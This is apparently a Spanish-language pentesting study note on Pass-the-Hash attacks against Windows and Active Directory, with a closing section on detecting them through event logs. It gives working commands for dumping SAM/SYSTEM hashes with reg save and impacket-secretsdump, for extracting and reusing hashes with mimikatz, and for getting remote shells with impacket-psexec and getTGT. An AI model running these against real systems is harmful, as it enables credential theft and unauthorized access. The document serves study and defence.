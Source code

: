 # Pass The Hash (PTH)
**Pass The Hash** es una técnica utilizada por los a atacantes en la que se aprovechan de un hash de contraseña robado en lugar de la contraseña en texto claro para aunteticarse en un sistema o red. En lugar de descifrar la contraseña real, los atacntes toman el hash de contraseña y lo utilizan como una credencial para accceder a sistemas y recursos sin conocer la contraseña real del usuario.

- ### **Obtención del Hash NT**: El atacante primero necesita robar o adquirir de alguna manera el **Hash NT** de una cuenta de usuario. Esto puede hacerse mediante ataques previos, como ataques de captura de tráfico, [[Kerberoasting Attack]], o explotando vulnerabilidades en sistemas o aplicaciones.

- ### **Uso de Hash NT**: Una vez que el atacante tiene el Hash NT, puede utilizarlo para autenticarse en sistemas y recursos. El sistema o el servidor de destino calcula el hash de la contraesña proporcionado por el atacante y lo compara con el hash robado. Si coinciden, se conocede el acceso sin necesidad de conocer la contraseña real.

- ### **Acceso no autorizado**: Con el Hash NT correcot, el atacante puede obtener acceso no autorizado a sistemas, aplicaciones y recursos que normalmente requerirían una autenticación válida. Esto puede incluir servidores, base de datos, recursos compartidos a nivel de red y otros sistemas críticos.

----
# PoC
Por ejemplo, supongamos que logramos obtener el Hash NT del usuario Administrador, haciendo uso de la suite de impacket, con herramientas como **imapcket-psexec**

```bash
# Una vez obtenido un Hash NT, ejemplo: 
"aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"

# Ambas maneras son validas para llevar a cabo el Pass The Hash
impacket-psexec WORKGROUP/{Administrator}@{target_ip} -hashes :e0fb1fb85756c24235ff238cbe81fe00
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@{target_ip}
```
De esta manera nos podríamos autenticar como el usuario administrador en la máquina windows sin proporcionar contraseña ya que en lugar de esta proporcionamos el **hash NTLM**. 

Otro ejemplo, es realizar una petición de un TGT, lo que nos permite continuar con el flujo normal de [[Kerberos]] (Gráfico de autenticación: [[KERBEROS_AUTHETICATION_FLOW]]), para obtener acceso a un servicio específico.

```bash
impacket-getTGT {dc}/{username} -hashes :{Hash_NT}

export KRB5CCNAME={path/to/username.ccache/downloaded}

impacket-psexec {dc}/{username}@{ip} -k -no-pass
```
Obteniendo así, una vez más, la [[RCE - (Remote Command Execution)]].

------
# PoC para obtener hashes NT 

Por ejemplo, para realizar un **Pass The Hash** en caso de que tengamos privilegios y poder así intentar escalar los mismos, podríamos hacer uso de la herramienta **impacket-secretsdump** junto al archivo *system* y *sam* del sistema víctima. 

La herramienta **impacket-secretsdump** es una herramienta utilizada para extrar y mostrar informacio´n relacionada con las credenciales y secretos almacenados en un sistema Windows. (Volcado de Hashes NTLM, extracción de credenciales almancenadas, extracción sobre cuentas de usuarios y grupos, mostrar información sobre servicios y volcado de información del registros de seguridad).

El archivo **system** es un archivo del registro de Windows que contiene información sobre la configuración y ajustes del sistema, así como detalles sobre los controladores de dispositivos y la configuración del hardware. 

El archivo **sam (Security Accounts Manager)** es un archivo del registro de Windows, que contiene las cuentas de usuario y las claves de seguridad relacionadas con la autenticación en el sistema.

#### En la máquina victima:
```shell
reg save HKLM\system system
reg save HKLM\sam sam 

# HKLM = HKEY_LOCAL_MACHINE (Una clave de raíz del Registro Windows)
```
Con la instrucción **reg save** estamos creando una copia de seguridad del contenido del archivo **system** y del archivo **sam**, para posteriormente descargarlo a nuestra máquina y así poder dumpear los hashes NT para realizar un **Pass The Hash**. 

#### En la máquina atacante:
```bash
impacket-secretsdump -sam {sam_file} -system {system_file} LOCAL
```
Una vez ejecutado este comando, obtendremos una lista de todos los hashes NT de los usuarios registrados en la máquina victima. 

#### IMPORTATE: Es importante tener en cuenta que esto volcará los hashes almacenados en la máquina, por lo que si estamos en un entorno de Active Directory hay que entender que no se estan volcando los hashes NT del Domain Controler. Para obtener los hashes de los usuarios del dominio de Active Directory habría que enfocarse en el archivo **NTDS.dit**. 

------
# Detectar este Ataque ( #blueteam )

Para entender como evitar un ataque de **Pass The Hash** primero es necesario entender que eventos se generan en una autenticación NTLM normal.

# *Default NTLM Authentication*

Ejemplo, como un usuario Administrador vamos a lanzar una consola para autenticar otro usuarios con privilegios Administrativos: 

```bash
# Lanzar una cmd como un usuario diferente
runas /user:{domain}\{username} cmd.exe

# Conectarse a un servidor de Microsoft SQL para generar una autenticación NTLM
slqcmd -S {host}
```
Una vez realizada las acciones del ejemplo dado, podemos ver que se registrar los siguientes logs.
## Workstation Logs

- **4648** - Intento de logon con credenciales explicitas.
- **4624** - Una cuenta fue logueada de manera exitosa. (Este log cuenta con un **Logon Type: 2**, lo que significa un "Logon interactivo")
- **4672** - Privilegios especiales asignados al nuevo logon. (Esto por que en este ejemplo se utiliza una cuenta administrativa de manera inicial)
## SQL Server Logs

- **4624** - Una cuenta fue logueada de manera exitosa. (Este log cuenta con un **Logon Type: 3**, lo que significa "Network Logon")
- **4672** - Privilegios especiales asignados al nuevo logon.
## Domain Controller Logs

- **4768** - Se solicitó un ticket de autenticación de Kerberos (TGT).
- **4769** - Se solicitó un ticket de serivicio (TGS).
- **4776** - El equipo intento validar credenciales para una cuenta.
# *Pass The Hash Authentication*

Ejemplo, como un usuario Administrador vamos a lanzar una consola para aunticar a otro usuarios con privilegios Administrativos:

```bash
# Se extraer el hash NT con mimikatz de un Usuario
sekurlsa::logonpasswords

# Se autentica usando Pass The Hash
sekurlsa::pth /user:{username} /ntlm:{ntlm} /domain:{domain}

# Contectarse a un servidor de Microsoft SQL
sqlcmd -S {host}
```
Una vez realizada las acciones del ejemplo dado, podemos ver que se registra los siguientes logs.

## Workstation Logs

En este caso, los eventos son los mismos de una legítima autenticación (**4648**, **4624** y **4672**) pero co algunas diferencias.
- **4624** - En este caso ahora cuenta con un **Logon Type: 9**, lo que significa 'NewCredential' a la vez que **Logon Process = seclogo**.
## SQL Server Logs

En este caso son exactamente los mismos (**4624** y **4672**).

## Domain Controller Logs

En este caso **no** veremos autenticación de Kerberos.
# Detección 

Como conclusión, para detectar este tipo de ataques se pueden hacer uso de la siguiente información obtenida:
- **1)** Evento **4624** con **Logon Type 9**, **Authentication Package = Negotiate** y **Logon Process = seclogo**.
- **2)** **Sysmon Event ID 10** (Proceso que indica acceso a LSASS).

